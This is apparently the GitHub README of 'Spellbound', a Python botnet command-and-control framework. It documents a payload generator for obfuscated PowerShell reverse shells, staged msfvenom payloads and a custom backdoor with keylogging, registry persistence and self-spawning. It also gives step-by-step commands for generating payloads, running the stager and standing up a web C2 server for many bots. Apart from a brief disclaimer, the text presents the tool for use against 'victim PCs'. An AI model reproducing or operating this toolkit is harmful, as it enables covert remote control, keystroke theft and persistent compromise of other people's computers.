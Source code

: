 # Spellbound

A C2 framework for all your God Complex. A fully functional and integrated Botnet for remote command execution through user friendly UI.<br>

Spellbound is a C2 (Command and Control) framework meant for creating a botnet. Spellbound is created in python and includes a payload generator (spellgen) to send to your target. Spellbound is capable of handling around 65000 bots at a time (depending on the machine).

![1670504818823](https://user-images.githubusercontent.com/88616338/221417940-74bbffa4-9a20-49d2-8f93-36de576d167e.jpg)

# Components

## Spellgen
Spellgen is a payload generator which offers 3 different kinds of payloads:
- Base64 encoded powershell command
- Staged MSFvenom payload
- Spellshell (Custom payload with post-exploitation modules)

To get the help menu for spellgen, you can use the command ```python spellgen.py```
```
Usage: spellgen.py <payload> <IP> <PORT>

        payload: spellshell
                Fully specialized reverse shell with keylogging and persistance capabilities
                Command: whataretheywriting- start writing keystrokes to a file
                Command: persist- add your reverse shell to the startup registry
                Command: spawn- spawn another instance of the reverse shell
                Arguments: <C2C IP> <C2C Port>

        payload: powershell
                Base64 encoded fileless powershell reverse shell
                Arguments: <C2C IP> <C2C Port>

        payload: msf
                Standard msfvenom generated reverse shell staged payload
                Arguments: <STAGER IP> <STAGER Port>
                Dependencies: sudo apt-get install gcc-mingw-w64-x86-64 g++-mingw-w64-x86-64 wine64
```

Generating a payload with spellgen is an easy task where you just have to specify the payload type, C2 IP and port.

#### Powershell Payload
The powershell payload is a simple reverse shell encoded in base64 just as an obfuscation tactic. This payload can be run on the victim PC by executing it through powershell or cmd.

#### MSFvenom Payload
This payload is a bit tricky as it is a staged payload. The stager server can be found in spellgen by the name ```spellstager.py```. First, the stager needs to be run with the following command:
```python spellstager.py <IP> <STAGER_PORT> <C2_PORT>```
Then, the payload needs to be generated with the following command:
```python spellgen.py msf <STAGER IP> <STAGER PORT>```
The payload can be executed on the victim PC, which will connect to the stager and share a key, through Diffie Hellman key exchange, which will encrypt the actual reverse shell paylod during transit.

#### Spellshell
Spellshell is a self-developed backdoor with some in-built post-exploitation modules:
- pesistance through the ```persist``` command
- keylogging through the ```whataretheywriting``` command
- nested backdoor creation through the ```spawn``` command

## Spellbound
Spellbound is the actual C2 server, to which all bots connect. This is devloped in python and provides a beautiful web interface with the help of the Flask micro-framework. 

#### Setting it up
- ```git clone https://github.com/dingavinga1/spellbound/```
- ```cd spellbound```
- ```pip install -r requirements.txt```
- ```python app.py```
<br/><br/>
After the above steps, open up localhost in your browser, provide the IP for your listening interface and the port to listen on and your C2 will be ready to accept dem bots! 

# Collaborators 
- [Muhammad Huzaifa](https://github.com/huzaifi0604/)
- [Aisha Irfan](https://github.com/aishairfan/)

# Disclaimer
<b>This program is meant only for educational purposes and red-teaming practices. The authors will not be responsible for any misuse of this program. This program is free for personal and commercial use, provided that due credit is given to this repository and the authors.</b>
